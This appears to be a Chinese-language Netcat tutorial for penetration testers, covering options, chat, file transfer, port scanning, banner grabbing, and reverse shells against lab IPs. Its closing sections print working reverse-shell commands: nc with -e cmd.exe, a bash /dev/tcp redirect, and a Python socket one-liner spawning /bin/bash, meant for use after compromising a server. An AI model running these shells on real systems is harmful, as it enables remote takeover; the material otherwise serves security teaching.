









# Netcat瑞士军刀使用

## 一、Netcat瑞士军刀介绍

Netcat瑞士军刀介绍

Netcat 常称为 nc，拥有“瑞士军刀”的美誉。nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell。

## 二、常用参数

```shell
- d ：后台模式
- e ：在连接后执行程序，程序名称附加在后面。
- g ：设置网关，常用与内网突破
- G ：路由跳数。
- h ：帮助信息
- i ：设置发送每一行数据的时间间隔
- l ：设置nc处于监听状态等待连接。
- L ：设置nc处于监听状态等待连接，当客服端断开，服务器依旧回到等待状态。
- n ：指定数字的IP地址，不能用hostname
- o ：file 记录16进制的传输
- p ：port 本地端口号
- r ：随机本地及远程端口
- s ：addr 本地源地址
- t ：使用telnet交互方式
- u ：UDP模式
- v ：详细输出--用两个-v可得到更详细的内容
- w ：设置连接超时时间
- z ：将输入输出关掉--用于扫描时
123456789101112131415161718
```

## 三、实战

### 1、聊天室

打开一个终端输入`nc -l -p [localport]`作为服务器，再打开另一个终端输入`nc [remote_addr] [remote_port]`作为客户端。然后回车，在任意一个终端内输入字符，另一个终端接收到并打印出来，如下图所示。

**服务端：**`nc -l -p 4444`


**客户端：**`nc.exe 192.168.226.129 4444`



### 2、文件传输

服务端往客户端传送文件

**服务端**：`kali@kali:~/桌面$ nc -lvp 8888 < 1.txt`


**客户端**：`C:\Users\Administrator\Desktop\netcat-1.11>nc.exe -nv 192.168.226.129 8888 > test.txt`



### 3、端口扫描

**扫描：**`nc -v -n -z 192.168.226.130 1-1111`

```shell
kali@kali:~/桌面$ nc -v -n -z 192.168.226.130 [1-1111] 端口或端口范围

(UNKNOWN) [192.168.226.130] 445 (microsoft-ds) open
(UNKNOWN) [192.168.226.130] 139 (netbios-ssn) open
(UNKNOWN) [192.168.226.130] 135 (epmap) open
(UNKNOWN) [192.168.226.130] 90 (?) open
(UNKNOWN) [192.168.226.130] 89 (?) open
(UNKNOWN) [192.168.226.130] 88 (kerberos) open
(UNKNOWN) [192.168.226.130] 86 (?) open
(UNKNOWN) [192.168.226.130] 85 (?) open
(UNKNOWN) [192.168.226.130] 84 (?) open
(UNKNOWN) [192.168.226.130] 83 (?) open
(UNKNOWN) [192.168.226.130] 82 (?) open
(UNKNOWN) [192.168.226.130] 81 (?) open
(UNKNOWN) [192.168.226.130] 80 (http) open
123456789101112131415
```

**获取banner：**`nc -nv 192.168.226.130 80`

根据上面扫描出的开放端口可以进一步获取banner

banner 信息来表示欢迎语，其中会包含一些敏感信息，所以获取 banner 也属于信息搜集的范畴。在渗透测试中，典型的 4xx、5xx 信息泄露就属于 banner 泄露的一种。在 banner 信息中，可以获取到软件开发商、软件名称、服务类型、版本号等。而版本号有时候就会存在公开的 CVE 问题，可以直接进行利用。

banner 信息获取的基础是在和目标建立链接后的，只有建立的链接，才可以获取到相应的 banner 信息，当目标对 banner 信息进行隐藏或者配置了禁止读取时，这时的 banner 则获取不到。

```shell
kali@kali:~/桌面$ nc -nv  192.168.226.130 80

(UNKNOWN) [192.168.226.130] 80 (http) open
get                            这里输入get命令

HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=us-ascii
Server: Microsoft-HTTPAPI/2.0
Date: Tue, 22 Sep 2020 07:17:30 GMT
Connection: close
Content-Length: 326

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Bad Request</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Bad Request - Invalid Verb</h2>
<hr><p>HTTP Error 400. The request verb is invalid.</p>
</BODY></HTML>

12345678910111213141516171819
```

### 4、nc反弹shell

攻击机：`nc -lvp 8888`



服务机：`nc.exe -t -e cmd.exe 192.168.226.129 8888`



### 5、服务机没有安装nc情况如何反弹shell？

#### 1）bash -i 反弹shell

当我们拿到一台服务器权限之后，发现这台服务器没有安装nc。这种情境下我们可以在接收端上输入nc - lvp port用于监听指定端口的信息，并接收服务器反弹过来的shell。目标服务器下输入`bash -i >& /dev/tcp/ip/port 0>&1`用于反弹shell到指定接收端端口。

命令解释：

bash -i 表示以交互模式运行bash shell。 在重定向符 >&后面加文件，是将bash以交互模式传递给文件。/dev/tcp/ip/port 表示传递给远程主机的IP地址对应的端口。命令中的0>&1表示将标准输入重定向到标准输出，实现远程的输入可以在远程输出对应内容。

服务器的shell反弹到客户机：Liunx----->Windows

客户端：



服务器：



#### 2）python反弹

当我们拿到服务器的权限后，想要设置一个反弹shell。但是目标服务器上没有安装nc，但是安装了python。

```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
1
```

客户机：


服务器：

